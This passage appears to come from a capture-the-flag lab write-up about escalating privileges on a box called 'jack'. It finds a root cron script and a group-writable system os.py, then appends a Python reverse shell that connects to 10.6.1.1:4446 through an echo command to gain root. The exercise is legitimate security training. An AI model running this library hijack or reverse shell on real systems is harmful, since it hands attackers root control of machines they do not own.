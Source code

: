 ```python
import os

os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
```
{: .nolineno }

To find which `os.py` module is likely imported by root, we can get the python includes path with:

`python -c "import sys; import pprint; pprint.pprint(sys.path)"`

```bash
jack@jack:/opt/statuscheck$ python -c "import sys; import pprint; pprint.pprint(sys.path)"
['',
 '/usr/lib/python2.7',
 '/usr/lib/python2.7/plat-x86_64-linux-gnu',
 '/usr/lib/python2.7/lib-tk',
 '/usr/lib/python2.7/lib-old',
 '/usr/lib/python2.7/lib-dynload',
 '/usr/local/lib/python2.7/dist-packages',
 '/usr/lib/python2.7/dist-packages']
```
{: .nolineno }

Lucky us, we find a writeable `os.py` file in the first path. 

```bash
jack@jack:/home/jack$ ls -la /usr/lib/python2.7/os.py
-rw-rw-r-x 1 root family 25908 Nov 16  2020 /usr/lib/python2.7/os.py

jack@jack:/home/jack$ groups
jack adm cdrom dip plugdev lpadmin sambashare family
```
{: .nolineno }

We want to add a reverse shell in there but our normal shell imports `os.py`, the same file we’re weaponizing. We need to add our line of code at the very end of the file and dereference the import to avoid a circular reference.

The code we’re going to add is a slightly modified version of our regular Python reverse shell:

```python
import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.1.1",4446));
dup2(s.fileno(),0);dup2(s.fileno(),1);dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
```
{: .nolineno }

The easiest way to add it:

```bash
echo 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.1.1",4446));
> dup2(s.fileno(),0);dup2(s.fileno(),1);dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])' >> /usr/lib/python2.7/os.py
```
{: .nolineno }

🏁 We wait 2 minutes and get a reverse shell on port 4446. From here we can capture the root flag.